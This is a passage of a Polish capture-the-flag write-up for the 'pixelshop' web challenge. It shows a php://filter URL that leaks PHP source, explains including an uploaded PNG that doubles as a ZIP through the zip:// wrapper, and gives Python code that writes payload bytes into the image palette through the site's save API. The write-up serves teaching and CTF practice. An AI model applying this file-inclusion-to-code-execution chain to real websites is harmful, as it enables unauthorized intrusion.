 `http://pixelshop.pwning.xxx/?op=php://filter/read=convert.base64-encode/resource=index`

We ten sposób uzyskujemy źródła wszystkich plików (patrz katalog [src](src)).
Analiza źródeł pozwala stwierdzić że:

- Strona includuje tylko pliki `.php` ponieważ rozszerzenie jest zawsze doklejane, a jest to nowa wersja PHP niepodatna na null-byte poisoning
- Każdy uploadowany plik będzie miał rozszerzenie `.png`
- Możemy uploadować tylko poprawne obrazki
- Obrazek jest czyszczony z metadanych więc nie ma możliwości przmycić czegoś w exif
- Możemy ręcznie ustawić palete oraz piksele obrazu przez wbudowaną w stronę funkcje edycji ikonek

Pierwszy problem który musieliśmy pokonać to includowanie wybranego przez nas pliku.
Chwile zajęło nam dojście do rozwiązania, ale wreszcie pomyśleliśmy że skoro wrappery pomogły raz to mogą i drugi.
PHP udostępnia wrapper `zip://` który pozwala w locie odpakować archiwum i uzyskać dostęp do jego zawartości.
To oznacza że można wykonać `zip://path_to_zip#file_name` jako parametr `include()` i tym samym includować plik z wnętrza zipa.
To oznacza że gdybyśmy mogli uploadować archiwum zip z plikiem php w środku, to moglibyśmy includować ten plik przez:

`http://pixelshop.pwning.xxx/?op=zip://uploads/our_zip%23file_inside`

I to pozwoliłoby odpakować archiwum i includować plik `file_inside.php` na stronę.
To rozwiązuje problem z rozszerzeniem pliku, ponieważ kontroluejmy rozszerzenie pliku wewnąrz zipa.
Nadal pozostaje jednak problem uploadowania archiwum zip podczas gdy strona pozwala umieszczać tylko poprawne obrazki.
Okazuje się jednak że poprawny plik png może jednocześnie być poprawnym archiwum zip!
A wrapper `zip://` nie bierze pod uwagę rozszerzenia piku więc może odpakować plik `.png` o ile jest to poprawne archiwum.

Nie mogliśmy po prostu uploadować przygotowanego pliku png ponieważ zostałby przez stronę przetworzony, ale mogliśmy do edytować.
Funkcja edycji udostępniała API do ustawiania palety oraz pixeli przez JSONa.
Paleta jest wyjątkowo interesująca bo jest składowana jako kolejne bajty w pliku PNG.
Paleta była przyjmowana jako trójki (RGB) więc przygotowaliśmy funkcje konwertujacą podany payload na palete:

```python
def form_payload(payload):
    b = ["{:02x}".format(ord(c)) for c in binascii.unhexlify(payload)]
    for i in range(3-(len(b) % 3)): # padding
        b.append("00")
    data = []
    for i in range(0, len(b), 3):
        data.append('"#%s%s%s"' % (b[i], b[i + 1], b[i + 2]))
    return ",".join(data)
```

A następnie przygotowaliśmy skrypt edytowal plik png na stronie i ustawiał jako palete wybrane przez nas bajty:

```python
def edit_file(imagekey, palette_payload):
    base_url = "http://pixelshop.pwning.xxx/"
    url = base_url + "?op=save"
    img = ",".join(['0' for i in range(32 * 32)])
    payload = form_payload(palette_payload)
    jsonData = """
     {
       "pal": [%s],
       "im":[%s]
     }
    """ % (payload, img)
    data = {"imagekey": imagekey, "savedata": jsonData}
    result = requests.post(url, data=data)
    print(result.content)
```
